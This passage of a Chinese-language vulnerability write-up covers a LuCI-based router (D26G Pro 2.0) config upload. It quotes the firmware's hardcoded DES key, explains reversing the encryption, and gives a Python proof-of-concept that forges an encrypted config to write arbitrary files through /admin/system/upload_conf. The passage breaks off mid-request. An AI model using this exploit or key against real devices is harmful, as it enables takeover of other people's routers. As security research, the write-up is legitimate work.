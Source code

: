 ```lua
local d = l("luci.lib.des")
-- DES_KEY = "jklsd*%&%HDFG767" -- 在/usr/lib/lua/luci/torchlight/setting.lua
if o.ENONE ~= d.encrypt(t, a.DES_KEY, c) then 
    n.unlink(t)
    return false
end
```

加解密逻辑也挺简单的，就一个des，但是这个des很玄学，key传了个16位的，压根对不上，也没写模式和iv，还tm是的so。

![image-20220311103200862](https://cdn.yoshino-s.online//typora_img/image-20220311103200862.png)

怎么办，ida呗。

![image-20220311103420993](https://cdn.yoshino-s.online//typora_img/image-20220311103420993.png)

管他写了啥，直接找找开源实现，天下代码一大抄，我直接在github上找到了一模一样的实现，嘻嘻

![image-20220311103601385](https://cdn.yoshino-s.online//typora_img/image-20220311103601385.png)

那不管了，直接给他解一下呗

![image-20220311103657737](https://cdn.yoshino-s.online//typora_img/image-20220311103657737.png)

挺好看的哦，直接进行一个猜测，第一行就是剩下的内容md5加上版本签名。回去看看源码(`/usr/lib/lua/luci/torchlight/utils.lua#append_md5_header`)也确实这么写的。然后看一下他的parse，这里就不详细分析代码了，反正就是分离出来然后直接覆盖掉`FILE_PATH`位置上的文件。那不就成了！

## POC&EXP

这里我们构造一个POC

```python
import os
import requests
import hashlib
import random

stok = "8506481037c7b6f28fd834e1affad2b3"

url = "http://192.168.1.1"

u = f"{url}/stok={stok}/admin/system/upload_conf"

poc = random.randbytes(16).hex()

files = {
    "/www/web-static/poc": poc,
}

def gen():
    file = ""
    for name, content in files.items():
        file+="@FILE_START@------------------------------------------\n"
        file+="@FILE_PATH@="+name+"\n"
        file+=content+"\n"
        file+="@FILE_END@------------------------------------------\n"
    md5 = hashlib.md5(file.encode("utf-8")).hexdigest()
    file = md5 + ",D26G Pro 2.0\n"+file
    with open("config.txt", "w") as f:
        f.write(file)
    os.system('./test encrypt "jklsd*%&%HDFG767" config.txt config.bin && rm config.txt')
    with open("config.bin", "rb") as f:
        return f.read()

resp = requests.post(u, files={
```